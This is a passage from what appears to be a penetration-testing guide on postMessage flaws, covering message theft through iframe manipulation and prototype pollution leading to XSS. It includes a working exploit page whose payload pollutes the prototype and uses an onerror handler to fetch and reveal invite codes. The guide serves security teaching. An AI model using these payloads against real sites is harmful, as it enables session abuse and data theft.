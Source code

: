 ```markup
<script>
var w=window.open("<url>")
setTimeout(function(){w.postMessage('text here','*');}, 2000);
</script>
```

### Stealing message sent to child by blocking the main page

In the following page you can see how you could steal a **sensitive postmessage data** sent to a **child iframe** by **blocking** the **main** page before sending the data and abusing a **XSS in the child** to **leak the data** before it's received:

{% content-ref url="blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

### Stealing message by modifying iframe location

If you can iframe a webpage without X-Frame-Header that contains another iframe, you can **change the location of that child iframe**, so if it's receiving a **postmessage** sent using a **wildcard**, an attacker could **change** that iframe **origin** to a page **controlled** by him and **steal** the message:

{% content-ref url="steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

### postMessage to Prototype Pollution and/or XSS

In scenarios where the data sent through `postMessage` is executed by JS, you can **iframe** the **page** and **exploit** the **prototype pollution/XSS** sending the exploit via `postMessage`.

A couple of **very good explained XSS though `postMessage`** can be found in [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html)

Example of an exploit to abuse **Prototype Pollution and then XSS** through a `postMessage` to an `iframe`:

```html
<html>
<body>
    <iframe id="idframe" src="http://127.0.0.1:21501/snippets/demo-3/embed"></iframe>
    <script>
        function get_code() {
            document.getElementById('iframe_victim').contentWindow.postMessage('{"__proto__":{"editedbymod":{"username":"<img src=x onerror=\\\"fetch(\'http://127.0.0.1:21501/api/invitecodes\', {credentials: \'same-origin\'}).then(response => response.json()).then(data => {alert(data[\'result\'][0][\'code\']);})\\\" />"}}}','*');
            document.getElementById('iframe_victim').contentWindow.postMessage(JSON.stringify("refresh"), '*');
        }

        setTimeout(get_code, 2000);
    </script>
</body>
</html>
```
